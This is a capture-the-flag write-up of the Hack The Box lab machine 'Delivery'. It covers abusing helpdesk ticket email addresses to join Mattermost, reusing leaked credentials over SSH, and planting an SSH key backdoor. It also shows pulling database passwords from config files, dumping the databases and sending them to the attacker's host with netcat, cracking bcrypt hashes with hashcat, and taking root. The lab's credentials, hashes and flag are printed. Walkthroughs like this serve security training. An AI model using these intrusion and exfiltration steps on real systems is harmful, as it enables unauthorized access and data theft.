





# Writeup - Delivery

## 1. Website

Started by just trying to connect to the host directly in my browser, as there is usually some sort of website. Indeed we are greeted with a nice landing page. Nothing too fancy going on just yet, however, the **Contact Us** button appears to be a working link, leading to a little info page.


On that page, three interesting things are discovered:

1. **HelpDesk** is a working link, which leads to the subdomain `helpdesk.delivery.htb`
2. A **Mattermost** server is mentioned
    - Blantly tried connecting to the website at `mattermost.delivery.htb`, `deliver.htb/mattermost` and the same with `mm` instead of `mattermost`. No success however.
3. An e-mail scheme is mentioned which grants access to the Mattermost server,
    if you have an e-mail address conforming to it.

> Later I discovered that **MatterMost server** is a clickable link too.
> Didn't notice that. lol

Let's get an overview of the host itself next, as there seem to be things to discover beyond this specific website.

## 2. Initial Scanning

```bash
$ nmap -sS -Pn -p1-65535 delivery.htb
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-30 19:29 CET
Nmap scan report for 10.10.10.222
Host is up (0.031s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8065/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 21.96 seconds
```

- An OpenSSH server was detected. According to `-sV` and a `-A` scan, pretty up-to-date. Owning this by exploiting a public-facing SSH server would be too easy, but you never know... ( ͡° ͜ʖ ͡°)
- Webserver at port 80, which is already known from **Step 1**
- Another open TCP port at `tcp/8065`, which wouldn't show up on a regular `nmap -A` scan (compare [full nmap](nmap/full_tcp.nmap) and [aggressive scanning](nmap/nmap.nmap)). This could be the **Mattermost** host mentioned on the **Contact Us** webpage in **Step 1**.

The scan for OS version, software versions and fingerprints didn't yield any interesting additional information.

## 2.1 Verify tcp/8065 - Mattermost

Verify what is behind the `tcp/8065` port that was discovered via `nmap`.
I just tried connecting to it, to see what banner it sends back:

```shell
$ nc -v delivery.htb 8065
hello?
```

A response came back promptly, indicating `HTTP/400 Bad Request`. So this is some sort of webserver, probably the Mattermost web interface. Verify this by visiting **http://delivery.htb:8065** in a browser.

The guess was correct and the URL reveals a Mattermost login page. **Default credentials don't work** and **creating an account requires e-mail activation**. E-mail addresses without `@delivery.htb` fail with an error message, effectively preventing us from passing it. Not much to achieve here at first glance.

Exploiting Mattermost itself is probably not easy, as this seems to be off-the-shelf software. Maybe this is worth a look later.

## 3. Examining the Helpdesk

The **Contact Us** page linked to a **HelpDesk** website, which offers options to open tickets and check their status.



There seems to be an account required for that operation, as an e-mail address is requested. Earlier we saw a hint, indicating that a specific address pattern might be required.

There is a **Sign In** button, whose destination offers a link to a registration form. Let's try creating an account with e-mail address `valeera@delivery.htb`.

> At this point I tried using that e-mail address to sign-up at the Mattermost
> server, hoping the e-mail activation is just an optional step. **It isn't.**

There was another login form for **Agents**, which looked differently. Using 
default credentials or some guesses like `admin:admin` didn't work.
Took a mental note of that, next to Mattermost. Might be useable later.

Next attempt is creating a ticket, to see what we can do with such an account.
Submitting the form yields a **very** interesting message, saying that there is an **e-mail address for further communication regarding this ticket**.



> Ticket systems often feature some sort of special subject line or e-mail
> address to distinguish communication regarding different tickets and 
> sort/assign them automatically.
>
> These ticket-specific e-mail addresses match the aforementioned address
> scheme and might be usable for Mattermost access.
> **If we can look at "communication" of that ticket, we might be able to
> confirm the Mattermost account creation!**

## 3.1 What about XSS, SQLi and other Shenanigans?

At all HelpDesk webpages, I noticed a CSRF token to be present. Additionally, forms were Captcha-protected and I once ran into a Login-lockout doing some manual fiddling.

I decided that any scanner activity would be tricky, as it would be either terribly slow, if not impossible, or non-trivial because I'd have to figure out the specifics of that CSRF token first. Light testing with `ZAProxy` revealed that even re-submitting the same token in a request causes a redirect, throwing me back onto the start page.

At this point I looked into non-injection techniques, as messing with the backend directly is probably more difficult than pulling off some tricks with the frontend.

## 4. Breaching into Mattermost

Creating the ticket provides an e-mail address, which I use at Mattermost to create an account. Indeed, the **registration succeeds** and **the activation mail arrives in the ticket!**. Using the **Check Ticket Status** and entering our ticket number along with the creators e-mail address (`valeera@delivery.htb` in this case; from the beginning of step 3) grants access to the Mattermost e-mail text. That contains the activation link, which we click, of course.

This takes us to the well-known Mattermost dashboard, which prompts us to join a team. **Internal** in this case. Sounds promising.



The chat that is visible here contains **very** valueable hints.



We got a couple things from this short chat messages alone:

1. Credentials to some administrative account of OSTicket (Ticket Software used in the HelpDesk), which we can tell by the fact that it is capable of changing the theme globally.

2. A username called `maildeliverer`, which is not `admin`. Doesn't sound like a default name. Maybe it's used somewhere else, as it seems to be chosen by the developers.

3. `PleaseSubscribe` is apparently a commonly used password-base at this company. It was apparent already, but we also get the hint, that Hashcat rules might be useful when creating a wordlist for password cracking.

4. Password re-use is apparently taking place to a level where developers are asked to create a piece of software against that. Maybe we can find a software later, that contains bugs and has access to `/etc/shadow`. That might be leveraged to dump password hashes.

> ## Credentials gathered
>
> OSTicket: `maildeliverer:Youve_G0t_Mail!`
>
> `PleaseSubscribe!` or some variation of it seems to be used somewhere™.

## 4.1 Looking at OSTicket

The credentials for OSTicket are correct and allow access to an administrative panel. Looking through that, no password hashes or other interesting (account) info is visible.

A single setting sticks out and might be usable later. An "Embedded Domain Whitelist" might allow us to whitelist our own IP address and exploit some XSS or content-manipulation tricks later. However, I didn't see any apparent application for this in the current state, so another mental note of that for later on.



The administrative panel also allows messing with user accounts. My own account is visible here, but cannot be activated entirely (e-mail activation for `valeera@delivery.htb` was still pending) even from this admintrative panel.

Beyond that, there was nothing too interesting here.

## 5. Breaking into Userland

We got a username and password in **Step 4**, along with the impression that this company has a credential re-use problem. Let's try connecting to the OpenSSH server discovered during the `nmap` scans.

```shell
$ ssh delivery.htb -l maildeliverer
maildeliverer@delivery.htb's password:
[...]
maildeliverer@Delivery:~$
```

**Pew Pew, got 'em!**
> A quick `ls -l ~` **reveals the `user.txt` flag!**

> Insert a quick backdoor by copying our own SSH key into `.ssh/authorized_keys`, to save us some password copypasta.

## 6. Enumerating the System

`LinEnum` yields some results that might be interesting (full log [here](linenum.log)):

1. in `cron.daily` there is a job called `passwd`, which might be related 
    to the aforementioned password-policy software:

    ```bash
    $ cat /etc/cron.daily/passwd
    #!/bin/sh
    cd /var/backups || exit 0

    for FILE in passwd group shadow gshadow; do
            test -f /etc/$FILE              || continue
            cmp -s $FILE.bak /etc/$FILE     && continue
            cp -p /etc/$FILE $FILE.bak && chmod 600 $FILE.bak
    done
    ```

    Taking a look at `/var/backups` this doesn't seem exploitable.

2. `ps aux` lists a process of `root` named `/root/py-smtp.py`.
    This explains the locally listening port `tcp/1025`. It's self-made, obviously, but we don't have access to the source code. Blindly trying to exploit a Python script is more of a last-resort option.

3. `sudo` is version `1.8.27`, which has a **Security Bypass** exploit.
    However, it is unusable here, as we don't have any `sudo` privileges whatsoever.

4. `SUID` binaries might reveal another piece of software, especially because the
    Mattermost chat mentioned a password-checking software, which might be exploitable.

    ```bash
    -rwxr-sr-x 1 root shadow 71816 Jul 27  2018 /usr/bin/chage
    -rwxr-sr-x 1 root shadow 31000 Jul 27  2018 /usr/bin/expiry
    -rwxr-sr-x 1 root shadow 39616 Feb 14  2019 /usr/sbin/unix_chkpwd
    ```

    Unfortunately, these `SUID` files turned out to be standard files.
    I suspected a self-written script when reading the typo in `chage` (is it one?).

5. `netstat -tulpn` reveals a `mysql` database at port `tcp/3306`

6. `netcat` is present, which is convenient and allows for quick and easy 
    data-exfiltration

## 7. Dumping Databases

Having discovered a locally listening `mysql` server, let's try to get into it. Let's try the already known password and identify the specific database software (in case somebody thought of binding a Oracle DB to port `3306`):

```bash
maildeliverer@Delivery:~$ nc 127.0.0.1 3306
[...] 5.5.5-10.3.27-MariaDB

maildeliverer@Delivery:~$ mysql -u maildeliverer -p
Enter password:
ERROR 1698 (28000): Access denied for user 'maildeliverer'@'localhost'
```

The password re-use problem is apparently not big enough to also include database accounts.
However, there are two web applications installed, which require some sort of database.
Let's check their installation location and configuration files (`LinEnum` already discovered `/opt/mattermost/`).

### 7.1 OSTicket Password Dumping

OSTicket stored the database information in `include/support/settings.php` according to a quick research on a search-engine of our choice. The webroot has apparently been moved to `/var/www/osticket/upload/`, but not `settings.php` containing the desired information can be found.

After craving through some files, I found another thread on the OSTicket forums indicating `include/ost-config.php` being the correct location. This turned out to be correct and the database information could be extracted:

```php
maildeliverer@Delivery:/var/www/osticket/upload$ cat include/ost-config.php
[...]
# Database Options
# ---------------------------------------------------
# Mysql Login info
define('DBTYPE','mysql');
define('DBHOST','localhost');
define('DBNAME','osticket');
define('DBUSER','ost_user');
define('DBPASS','!H3lpD3sk123!');

# Table prefix
define('TABLE_PREFIX','ost_');
[...]
```

> ## Credentials gathered
>
> MySQL: `ost_user:!H3lpD3sk123!`
>
> Database: `osticket`

Next we dump and exfiltrate the database, in case we lose access or need to take a closer look at it.

```bash
# On my host
$ nc -l 51337 -v > db_dump.sql

# On the target host
$ mysqldump -A -u ost_user -p > /tmp/db_dump.sql
Enter Password:
$ nc 10.10.42.57 51337 < /tmp/db_dump.sql
$ rm /tmp/db_dump.sql

# Repeated the procedure for a dump of `osticket` only to get a "clean" dump.
```

Let's peek at the tables directly and try to find some password hashes or something:

```sql
-- Issued specific SQL SELECT's for readability
MariaDB [osticket]> select id, name from ost_user;
+----+----------------------------------+
| id | name                             |
+----+----------------------------------+
|  1 | osTicket Support                 |
|  2 | bob                              |
|  3 | 9ecfb4be145d47fda0724f697f35ffaf |
|  4 | c3ecacacc7b94f909d04dbfd308a9b93 |
|  5 | ff0a21fc6fc2488195e16ea854c963ee |
|  6 | 5b785171bfb34762a933e127630c4860 |
|  7 | saint                            |
|  8 | sdfsdf                           |
|  9 | hacking                          |
| 10 | test                             |
| 11 | hacker                           |
+----+----------------------------------+
11 rows in set (0.000 sec)

MariaDB [osticket]> select * from ost_user__cdata;
+---------+-------+------+-------+-------+
| user_id | email | name | phone | notes |
+---------+-------+------+-------+-------+
|       1 | NULL  | NULL | NULL  | NULL  |
|       2 | NULL  | NULL |       |       |
|       3 | NULL  | NULL |       |       |
|       4 | NULL  | NULL |       |       |
|       5 | NULL  | NULL |       |       |
|       6 | NULL  | NULL |       |       |
|       7 | NULL  | NULL |       |       |
|       8 | NULL  | NULL |       |       |
|       9 | NULL  | NULL |       |       |
|      10 | NULL  | NULL |       |       |
|      11 | NULL  | NULL |       |       |
+---------+-------+------+-------+-------+
11 rows in set (0.000 sec)

MariaDB [osticket]> select id,user_id,username,passwd from ost_user_account;
+----+---------+----------+--------------------------------------------------------------+
| id | user_id | username | passwd                                                       |
+----+---------+----------+--------------------------------------------------------------+
|  1 |       7 | NULL     | $2a$08$yY4HDrD1SatcwG89gmnY8.1tE8JJYPZWQ.0NyzE6bayBzQxByA9/m |
|  2 |       9 | NULL     | $2a$08$WfQ7XIF27W3LkrePzhnV/e.auNW3cipNu4foex4H8kfrVdvTl.Rge |
+----+---------+----------+--------------------------------------------------------------+
2 rows in set (0.000 sec)
```

> ## Password Hashes gathered
>
> `$2a$08$yY4HDrD1SatcwG89gmnY8.1tE8JJYPZWQ.0NyzE6bayBzQxByA9/m`
>
> `$2a$08$WfQ7XIF27W3LkrePzhnV/e.auNW3cipNu4foex4H8kfrVdvTl.Rge`

Those retreived password hashes belong to users named `saint` and `hacking`. While the latter is probably not interesing and just somebody who created an account for themselves, `saint` could be interesting. Put it to the passwords to be cracked later.

## 7.2 Mattermost Password Dumping

Mattermost's configuration file is found easily in `/opt/mattermost/config/config.json`, which is world-readable:

```bash
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json
[...]
"DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost[...]",
"AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez"
```

A username, password, database and encryption key is exposed here. Take note of all that. The encryption key might be useful later. Let's dump that database too, using the same techniques as before (full dump [here](db_dump_mattermost.sql)).

> ## Credentials gathered
>
> MySQL: `mmuser:Crack_The_MM_Admin_PW`
>
> Database: `mattermost`

```sql
-- Specific command to get the root account only for readability
$ MariaDB [mattermost]> select Username, Password from Users where Username = "root";
+----------+--------------------------------------------------------------+
| Username | Password                                                     |
+----------+--------------------------------------------------------------+
| root     | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
+----------+--------------------------------------------------------------+
10 rows in set (0.001 sec)
```

> ## Password Hash gathered
>
> `root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO`

The earlier hint saying that password re-use is a problem suggests, that this one might be the actual `root` password for the system.
Let's start with this one when cracking.

## 8. Cracking Passwords and owning `root`

Let's fire up `hashcat`. Had to look up a couple things, as I haven't used that thing in a while. The Mattermost chat had another hint suggesting to use `hashcat` rules to combine the already [known phrase](password_cracking/phrase.txt) with **"all variations of common words or phrases"**.

Going through the `hashcat` rule directory at `/usr/share/hashcat/rules/` a couple stick out:

```bash
drwxr-xr-x 3 root root   4096 Jan 30 22:49 .
drwxr-xr-x 7 root root   4096 Jan 30 22:43 ..
-rw-r--r-- 1 root root    933 Jul 31  2020 best64.rule
-rw-r--r-- 1 root root    633 Jul 31  2020 combinator.rule
-rw-r--r-- 1 root root 788063 Jul 31  2020 dive.rule
-rw-r--r-- 1 root root 483425 Jul 31  2020 generated2.rule
-rw-r--r-- 1 root root  78068 Jul 31  2020 generated.rule
-rw-r--r-- 1 root root 309439 Jul 31  2020 Incisive-leetspeak.rule
-rw-r--r-- 1 root root    298 Jul 31  2020 leetspeak.rule
-rw-r--r-- 1 root root 301161 Jul 31  2020 rockyou-30000.rule
-rw-r--r-- 1 root root  55346 Jul 31  2020 unix-ninja-leetspeak.rule
```

L33tspeak rules and some common wordlists seem promising, so I just start from the top and try all of them.

> By the way: The hashes were identified as **salted bcrypt** (`hashcat` id 3200), as indicated by `$2a$`
> at the beginning of these hashes.

```bash
$ hashcat -a 0 -m 3200 -r /usr/share/hashcat/rules/<file>.rule mattermost_root.hash phrase.txt
```

It turned out that the first attempt with `best64.rule` already succeeds, cracking the password hash and revealing the original password. The same rule (and a couple others) had no success with the other two hashes, so those were probably from somebody else and kinda secure.

> ## Credentials gathered
>
> `root:PleaseSubscribe!21`

This password could be the one for `root` on the host itself. Let's try that.

```bash
maildeliverer@Delivery:~$ su root
Password:
root@Delivery:/home/maildeliverer# id
uid=0(root) gid=0(root) groups=0(root)
root@Delivery:/home/maildeliverer# cat /root/root.txt
fdebf05c73ebffb0938387343d6144fb
```

## 9. Lessons Learned

This box went smooth mostly. There were a couple traces that were promising and several things that might could've come in handy later, like the **Domain Whitelist**, **Password Policy Software** or **OSTicket DB Access**. It's always worth to keep such things in mind, even if they aren't useful immediately.

Security-wise, this box shows off that password re-use is a serious problem. `ippsec`, the author of this box, left a comment saying that the box was inspired by a news article, so there is a piece of truth in this CTF.

Another interesting aspect was the fact that developers were instructed to write some piece of software themselves to monitor password policies. This can usually be done by regular settings. Writing some script capable of accessing (and modifying?) credentials is usually not good idea, as shown in the solving process of this challenge. If that cronjob in `cron.daily` was exploitable and flagged with `SUID` or `SGID`, the route to breaking `root` might've been ended right there.

Also that the ticket system could be leveraged to gain access to a company-domain e-mail account, which apparently matched a whitelist in Mattermost is a cool idea and doesn't sound too unrealistic. I can totally see that happening at some point. More generally speaking: Always think about side-effects and when implementing something that feels weird: **Measure twice, cut once.**
